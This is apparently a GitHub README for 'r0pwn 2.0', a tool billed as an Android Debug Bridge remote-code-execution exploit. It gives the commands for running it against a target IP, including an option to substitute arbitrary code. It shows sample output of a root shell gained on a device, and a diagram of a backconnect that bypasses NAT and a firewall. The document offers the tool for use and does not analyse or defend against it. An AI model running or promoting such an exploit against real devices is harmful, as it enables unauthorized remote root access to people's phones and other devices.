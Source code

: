 # r0pwn 2.0

*hmm...*

    Android Debug Bridge RCE exploit.

## Table of contents

* [Dependencies](#dependencies)
* [Exploiting](#exploiting)
* [Code Substitution](#substitution)
* [Exploit Algorithm](#algorithm)

## Dependencies

* `android-platform-tools`

## Exploiting

```shell
python3 exploit.py <target>
```

**NOTE:** Target should have wireless debugging turned on

```shell
root@kali:~/r0pwn# python3 exploit.py 192.168.1.75

======================
r0pwn by Ivan Nikolsky
======================

Android Debug Bridge RCE exploit.

exploiting 192.168.1.75...
root@nevada:~# whoami
root
root@nevada:~#
```

# Substitution

```shell
root@kali:~/r0pwn# python3 exploit.py <target> -s <code>
```

# Algorithm

```
                    backconnect (over ADB)
               +------------------------------+
               |                              |
attacker --- r0pwn --- NAT -+- Firewall -+- target
                            |            |
                            +------------+
                                bypass
```
